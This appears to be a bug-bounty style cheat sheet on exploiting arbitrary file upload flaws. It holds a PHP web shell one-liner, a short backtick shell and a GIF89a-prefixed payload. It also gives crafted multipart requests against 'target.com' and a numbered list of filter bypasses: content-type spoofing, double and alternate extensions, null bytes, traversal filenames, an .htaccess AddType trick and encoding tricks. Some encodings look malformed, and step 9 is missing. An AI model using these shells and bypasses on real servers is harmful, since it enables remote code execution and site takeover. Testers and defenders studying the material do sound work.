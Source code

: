 # Arbitrary File Upload

## Introduction
An arbitrary file upload vulnerability is a type of security flaw that allows an attacker to upload malicious files onto a server.
`<?php echo system($_GET['command']); ?>` => ur shell file 

## Where to find
In upload file feature, for example upload photo profile feature

## How to exploit
1. Change the `Content-Type` value
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
Change the Content-Type
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```

2. Try to change the extension when send the request, for example in here you cant upload file with ext php but you can upload jpg file
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php
```
Change the request to this
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```

3. Upload the payload, but start with GIF89a; and
```
POST /images/upload/ HTTP/1.1
Host: target.com
...

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system("id") ?>
```
And don't forget to change the content-type to image/gif

4. Bypass content length validation, it can be bypassed using small payload
```
(<?=`$_GET[x]`?>)
```

5. Using null byte in filename
```
file.php%00.gif
```

6. Using double extensions for the uploaded file
```
file.jpg.php
```

7.  Uploading an unpopular php extensions (php4,php5,php6,phtml)
```
file.php5
```

8. Try to randomly capitalizes the file extension
```
file.pHP5
```
10. include directory traversal sequence (uploaded to a higher directory in the filesystem)
```
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
- hint => use the LFI techniques to bypass the dir traversal protection
GET /files/avatars/..%2fexploit.php
```
11. If php files are blacklisted ? 
	 - upload first a conf file that allows u to execute php files 
		- upload .htaccess file that have the following contnet `AddType application/x-httpd-php ".test"`
		- this means if u upload a .test file, it will be treated as .php file
		- upload ur .test shell file 
12. Add trailing Chars 
```
exploit.php.
```
13. Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes.
```
exploit%2Ephp
```
14. Add semicolons before the file extensions
```
exploit.php;.jpg
```
15. multibyte unicode characters `xC0 x2E`, `xC4 xAE` or `xC0 xAE`
```
exploit%xC0%x2Ephp
exploit%xC4%xAEphp
exploit%xC0%xAEphp
```
